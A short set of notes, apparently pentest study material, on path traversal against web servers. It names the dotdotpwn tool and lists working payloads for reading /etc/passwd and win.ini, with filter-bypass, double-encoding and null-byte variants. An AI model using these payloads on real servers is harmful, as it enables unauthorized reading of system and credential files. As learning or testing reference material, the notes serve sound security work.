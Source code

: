 Some files are used as input on web server, which can be manipulated to inject another file (`/etc/passwd`)

## Tool
- dotdotpwn

## Input examples
- ../../../etc/passwd
- ....//....//....//etc/passwd --> because ../ may be stripped
- ..%252f..%252fetc%252fpasswd --> to encode only `/`
- can also encore whole `../` once or twice
- some base folder may be mandatory, like /var/www/images so:
	- `/var/www/images/../../../etc/passwd` may be valid (with or without first slash)
- some application may require a filename ending with a file extension (`.png`), for this you can use the null byte to terminate the file path (`%00.<file-extension>`)
## Linux
On websites, images are usually stored in /var/www/images, so ../../.. is equivalent to root

## Windows
../../../windows/win.ini
Note that on windows, `/` and `\` are equivalent